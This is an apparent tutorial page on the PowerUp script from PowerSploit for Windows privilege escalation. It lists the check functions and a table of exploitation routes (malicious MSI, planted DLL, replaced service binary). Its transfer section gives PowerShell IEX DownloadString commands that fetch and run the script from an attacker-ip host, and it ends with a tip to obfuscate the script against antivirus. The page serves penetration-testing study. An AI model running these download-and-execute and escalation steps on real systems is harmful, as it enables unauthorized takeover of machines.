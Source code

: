 ## 🧰 What PowerUp Does

PowerUp checks for:

- 🛠️ Unquoted service paths
- 🔒 Weak service permissions
- 🧑‍💼 Insecure registry permissions
- 🧾 Credential files (e.g., `unattend.xml`)
- 🧰 AlwaysInstallElevated misconfig
- 🪛 DLL hijacking opportunities
- 🖥️ Startup applications & autoruns

---

## 📦 Download & Setup

Clone the repository:
```
git clone https://github.com/PowerShellMafia/PowerSploit.git
```

```
cd PowerSploit/Privesc
```

Or download only PowerUp:

From PowerShell (attacker machine)

```
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" -OutFile "PowerUp.ps1"
```

## ⚙️ Execution Options

### Import the Module

```
Import-Module .\PowerUp.ps1
```

### Run All Checks

```
Invoke-AllChecks
```
🚨 This will run the full suite of escalation checks and highlight potential vectors.

## 🔍 Useful Functions

|Function|Description|
|---|---|
|`Invoke-AllChecks`|Run all escalation checks|
|`Invoke-ServiceUnquoted`|Find unquoted service paths|
|`Invoke-ServiceWeakPermissions`|Find services with weak permissions|
|`Get-ModifiablePath`|List modifiable directories in `PATH`|
|`Get-RegAlwaysInstallElevated`|Check AlwaysInstallElevated setting|
|`Get-UnattendedInstallFile`|Search for unattended install files|
|`Get-CachedGPPPassword`|Detect Group Policy password artifacts|
|`Invoke-DllHijack`|Discover vulnerable DLL hijack locations|
|`Get-ProcessTokenPrivilege`|Show token privileges for running processes|

### 🧪 Example Workflow

Load PowerUp

```
Import-Module .\PowerUp.ps1
```

Run all checks

```
Invoke-AllChecks
```

Specific checks

```
Invoke-ServiceUnquoted
```

```
Get-RegAlwaysInstallElevated
```

## 🚀 Exploitation Opportunities

|Finding|Potential Exploit|
|---|---|
|Unquoted service path + writable dir|Replace EXE and restart service|
|Weak service permissions|Replace binary or change config|
|AlwaysInstallElevated|Create malicious MSI installer|
|Writable PATH entry|Drop malicious binary|
|Unattended install files|Extract plaintext passwords|
|DLL hijack|Place malicious DLL in load path|## 📁 Transferring to Target
### 📁 Transferring to Target
### Method: PowerShell Web Download

```
IEX (New-Object Net.WebClient).DownloadString('http://<attacker-ip>/PowerUp.ps1')
```

```
Invoke-AllChecks
```

Or host it with Python:

```
python3 -m http.server 8080
```

```
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>:8080/PowerUp.ps1')"
```

## 🛡️ OPSEC Considerations

- PowerUp is **noisy** — may trigger AV or logging
- Consider obfuscating or encoding the script
- Prefer offline analysis when possible









































































